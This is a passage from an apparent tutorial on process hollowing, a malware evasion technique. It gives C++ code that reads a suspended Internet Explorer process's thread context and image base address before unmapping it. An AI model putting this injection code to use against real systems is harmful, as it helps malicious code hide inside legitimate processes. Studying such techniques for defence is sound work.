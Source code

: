 Now, if we check the value of the `EAX` register (1) in the disassembly, we can see that it points directly to `iexplore!wWinMainCRTStartup`, which is the entry point of the suspended process (2).

![Suspended process entry point](/assets/img/posts/img_process_hollowing/suspended_entry_point.png)
_Figure 6: Suspended process entry point._

To extract this programmatically, we can use the `CONTEXT` structure to obtain all the registers and their values from the suspended process. This structure can be filled using the `GetThreadContext()` API.

Then, simply call `ReadProcessMemory()` to read the value from `EBX + 0x8` (_ImageBaseAddress_) to obtain the base address of the image.

```c++
// Get registers values via thread context
CONTEXT victimContext{};
victimContext.ContextFlags = CONTEXT_FULL;
GetThreadContext(pVictimProcessInfo->hThread, &victimContext);

// Log the necessarry registers to the console
std::cout << "[+] Successfully obtained context from victim process\n";
std::cout << "\t[i] Process Environment Block -> 0x" << std::hex << victimContext.Ebx << '\n';
std::cout << "\t[i] entry point -> 0x" << std::hex << victimContext.Eax << '\n';

// Get the base address of the victim process
PVOID pVictimImageBaseAddr{};
ReadProcessMemory(pVictimProcessInfo->hProcess,
 (PVOID)(victimContext.Ebx + 0x8),
 &pVictimImageBaseAddr,
 sizeof(PVOID),
 0);
std::cout << "[+] Successfully extracted image base address from victim process\n";
std::cout << "\t[i] Image base address -> 0x" << std::hex << pVictimImageBaseAddr << '\n';
```

## Hollowing

Now comes the important part that gives this specific evasion technique its name — _Hollowing_. Now that we have the necessary thread context, we can safely hollow out the process using `NtUnmapViewOfSection()`.

